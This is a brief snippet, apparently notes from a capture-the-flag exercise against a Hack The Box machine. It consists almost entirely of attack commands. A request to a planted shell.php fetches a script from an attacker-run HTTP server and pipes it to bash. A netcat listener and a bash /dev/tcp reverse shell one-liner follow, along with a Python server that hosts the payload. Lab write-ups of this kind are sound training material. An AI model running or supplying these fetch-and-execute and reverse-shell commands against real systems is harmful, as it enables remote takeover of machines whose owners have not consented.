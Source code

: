 ## HTML Rogue File Serve

```sh
  http://thetoppers.htb/shell.php?cmd=curl%2010.10.15.71:8000/shell.sh|bash
```

### Reverse shell Server
```sh
#create a listener for shell session
nc -nvlp 1337


#!/bin/bash
bash -i >& /dev/tcp/10.10.15.71/1337 0>&1

python3 -m http.server 8000

```

